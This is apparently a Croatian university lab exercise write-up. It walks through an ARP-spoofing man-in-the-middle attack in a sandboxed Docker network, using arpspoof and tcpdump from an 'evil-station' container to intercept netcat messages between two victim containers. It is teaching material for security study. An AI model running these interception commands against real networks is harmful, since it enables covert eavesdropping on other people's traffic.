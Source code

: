 # 1. laboratorijske vježbe

October 12, 2021 

Realizirati man in the middle napad iskorištavanjem ranjivosti ARP protokola. 

Student će testirati napad u virtualiziranoj Docker mreži (Docker container networking) koju čine 3 virtualizirana Docker računala (eng. container): dvije žrtve station-1 i station-2 te napadač evil-station.

- kloniranje Github repozitorija:

```bash
$ git clone https://github.com/mcagalj/SRP-2021-22
```

- promjena direktorija:

```bash
$ cd SRP-2021-22/arp-spoofing/
```

- pokretanje/zaustavljanje virtualiziranog mrežnog scenarija:

```bash
$ chmod +X ./start.sh
$ ./start.sh
$ chmod +X ./stop.sh
$ ./stop.sh
```

- pokretanje shella, dohvat IP adrese i adrese uređaja:

```bash

$ docker ps exec -it sh

$ ifconfig -a
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.24.0.2  netmask 255.255.0.0  broadcast 172.24.255.255
        ether 02:42:ac:18:00:02  txqueuelen 0  (Ethernet)
```

- provjera je li station-2 na istoj adresi:

```bash
$ ping station-2
```

- pokretanje shella u drugom kontejneru:

```bash
$ docker exec -it station-2 sh
```

- otvaranje servera i klijenta (pomoću netcata):

```bash
$ netcat -lp 9000
$ netcat station-1 9000
```

- pokretanje shella u trećem kontejneru:

```bash
$ docker exec -it evil-station sh
```

- arp spoofing (napad):

```bash
$ arpspoof -t station-1 station-2
$ tcpdump
```

- evil-station sada može očitavati poruke koje si međusobno šalju station-1 i station-2 bez njihovog saznanja o tome (ako evil-station tako poželi, tj. ako proslijedi dalje poruke koje je presreo)
- prekid napada:

```bash
$ echo 0 > /proc/sys/net/ipv4/ip_forward
```